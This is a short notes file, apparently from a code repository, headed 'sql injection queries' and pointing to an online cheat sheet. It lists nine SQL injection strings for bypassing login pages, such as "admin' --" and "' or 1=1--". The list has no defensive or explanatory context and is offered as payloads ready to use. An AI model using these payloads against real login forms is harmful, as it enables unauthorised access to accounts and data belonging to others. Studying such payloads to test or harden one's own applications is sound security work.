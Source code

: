 # sql injection queries
https://www.invicti.com/blog/web-security/sql-injection-cheat-sheet/
for login pages

admin' --
admin' #
admin'/*
' or 1=1--
' or 1=1#
' or 1=1/*
') or '1'='1--
') or ('1'='1--